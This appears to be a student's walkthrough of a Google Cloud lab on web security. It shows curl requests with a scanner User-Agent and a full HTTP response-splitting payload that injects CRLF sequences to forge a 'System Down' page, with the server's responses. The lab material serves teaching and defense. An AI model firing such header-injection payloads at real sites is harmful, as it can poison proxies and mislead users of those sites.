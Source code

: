 Both commercial and open source scan applications for various purposes,  including to find vulnerabilities. These tools use well-known User-Agent and other Headers. Observe curl works with a well-known User-Agent  Header.

```sh
student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ curl -Ii http://$PUBLIC_SVC_IP -H "User-Agent: blackwidow"
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 May 2024 02:16:21 GMT
ETag: W/"ea4-18f3c3cff0d"
Content-Type: text/html; charset=UTF-8
Content-Length: 3748
Vary: Accept-Encoding
Date: Fri, 03 May 2024 02:28:29 GMT
Via: 1.1 google

student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ 
```



### Observe a protocol attack: HTTP splitting

Some web applications use input from the user to generate the headers in the responses. If the application doesn't properly filter the input, an attacker can potentially poison the input parameter with the  sequence `%0d%0a` (the CRLF sequence that is used to separate different lines).

The response could then be interpreted as two responses by anything  that happens to parse it, like an intermediary proxy server, potentially serving false content in subsequent requests. Insert the sequence `%0d%0a` into the input parameter, which can lead to serving a misleading page.

```sh
tudent_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ curl -Ii "http://$PUBLIC_SVC_IP/index.html?foo=advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>"
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 May 2024 02:16:21 GMT
ETag: W/"ea4-18f3c3cff0d"
Content-Type: text/html; charset=UTF-8
Content-Length: 3748
Vary: Accept-Encoding
Date: Fri, 03 May 2024 02:29:44 GMT
Via: 1.1 google

student_04_c33562da3df8@cloudshell:~ (qwiklabs-gcp-04-08c687827d12)$ 
```
